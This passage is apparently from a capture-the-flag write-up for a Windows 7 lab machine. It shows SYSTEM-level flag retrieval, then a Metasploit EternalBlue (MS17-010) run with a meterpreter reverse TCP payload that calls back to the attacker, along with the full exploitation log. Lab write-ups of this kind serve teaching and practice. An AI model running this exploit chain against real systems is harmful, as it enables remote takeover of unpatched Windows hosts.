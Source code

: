 ```shell
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

whoami
whoami
nt authority\system

C:\Windows\system32>
```

Now we can grab both flags.
```powershell
type C:\Users\Administrator\Desktop\root.txt
type C:\Users\Administrator\Desktop\root.txt
ff548eb7************************
type C:\Users\haris\Desktop\user.txt
type C:\Users\haris\Desktop\user.txt
4c546aea************************
```

## Beyond Root
After a quick reset to make sure nothing goes wrong, I'm going to try using Metasploit now.
```sh
msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > set LHOST tun0
LHOST => tun0
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.10.10.40
RHOSTS => 10.10.10.40
```

After running `exploit`, this happens:
```sh
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit

[*] Started reverse TCP handler on 10.10.14.2:4444 
[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.10.40:445 - The target is vulnerable.
[*] 10.10.10.40:445 - Connecting to target for exploitation.
[+] 10.10.10.40:445 - Connection established for exploitation.
[+] 10.10.10.40:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.10.40:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.10.40:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.10.40:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.10.40:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.10.40:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.10.40:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.10.40:445 - Sending all but last fragment of exploit packet
[*] 10.10.10.40:445 - Starting non-paged pool grooming
[+] 10.10.10.40:445 - Sending SMBv2 buffers
[+] 10.10.10.40:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.10.40:445 - Sending final SMBv2 buffers.
[*] 10.10.10.40:445 - Sending last fragment of exploit packet!
[*] 10.10.10.40:445 - Receiving response from exploit packet
[+] 10.10.10.40:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.10.40:445 - Sending egg to corrupted connection.
[*] 10.10.10.40:445 - Triggering free of corrupted buffer.
[-] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=FAIL-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] 10.10.10.40:445 - Connecting to target for exploitation.
```